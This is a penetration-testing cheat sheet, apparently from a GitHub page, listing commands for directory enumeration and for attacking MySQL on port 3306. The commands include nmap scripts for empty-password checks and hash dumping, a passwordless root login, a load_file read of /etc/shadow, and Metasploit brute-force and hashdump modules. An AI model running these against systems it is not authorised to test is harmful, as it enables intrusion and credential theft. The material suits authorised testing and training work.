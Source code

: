```bash
##Directory enumeration with dirb and common.txt wordlist
dirb $url $wordlist
```

## MySQL

Default port: 3306

```bash
##Checking for logins that don't have any password with nmap
nmap $ip -p 3306 --script=mysql_empty_password

##Getting more information about the mysql server
nmap $ip -p 3306 --script=mysql-info

##Enumerating what users are registered via nmap (authenticated)
nmap $ip -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"

##Enumerating databases on the target via nmap (authenticated)
nmap $ip -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"

##Enumerating variables in the database with nmap (authenticated)
nmap $ip -p 3306 --script=mysql-audit --script-args="mysqlaudit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

##Dumping hashes via nmap (authenticated)
nmap $ip -p 3306 --script=mysql-dump-hashes --script-args="username='root',password=''"

##Running a query via nmap (authenticated)
nmap $ip -p 3306 --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''";

##Checking if file privs can be granted to non admins (authenticated)
nmap $ip -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

##Just connecting to the server with root
mysql -h $ip -u root

##Show all databases
show databases; #Remember to close statements in sql

##Move into a database
use databasename;

##Showing tables in a database
show tables;

##Printing out the information inside a table
select * from tablename;

##Check if we are connected to the fileservice and can read sensitive files
select load_file("/etc/shadow");

##MSF module to check if there are some writeable directories on the target
use auxiliary/scanner/mysql/mysql_writable_dirs

##Dumping hashes from mysql (authenticated)
use auxiliary/scanner/mysql/mysql_hashdump

##Brute force via MSF
use auxiliary/scanner/mysql/mysql_login

```